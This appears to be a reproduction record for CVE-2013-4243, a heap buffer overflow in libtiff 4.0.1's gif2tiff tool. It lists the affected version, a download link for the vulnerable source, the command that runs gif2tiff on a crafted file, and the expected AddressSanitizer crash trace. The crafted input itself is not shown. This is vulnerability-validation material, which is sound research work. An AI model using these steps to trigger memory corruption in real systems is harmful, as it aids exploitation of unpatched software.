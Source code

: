 Affected version:
tiff-4.0.1

Source code:
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-4243/tiff-4.0.1.tar.gz

Command:
> cd /path/to/compile/source
> ./tools/gif2tiff $FILE poc.tif 

Expected Output:
=================================================================
==180141==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60c0000000c0 at pc 0x5555556bc051 bp 0x7fffffffdc10 sp 0x7fffffffdc00
WRITE of size 1 at 0x60c0000000c0 thread T0
    #0 0x5555556bc050 in process /exp/validate/libtiff/CVE-2013-4243/source/tools/gif2tiff.c:431
    #1 0x5555556bb2b0 in readraster /exp/validate/libtiff/CVE-2013-4243/source/tools/gif2tiff.c:359
    #2 0x5555556ba952 in readgifimage /exp/validate/libtiff/CVE-2013-4243/source/tools/gif2tiff.c:297
    #3 0x5555556b9ec7 in convert /exp/validate/libtiff/CVE-2013-4243/source/tools/gif2tiff.c:213
    #4 0x5555556b9ca3 in main /exp/validate/libtiff/CVE-2013-4243/source/tools/gif2tiff.c:174
    #5 0x7ffff5df1c86 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x21c86)
    #6 0x5555556b9369 in _start (/exp/validate/libtiff/CVE-2013-4243/source/tools/gif2tiff+0x165369)



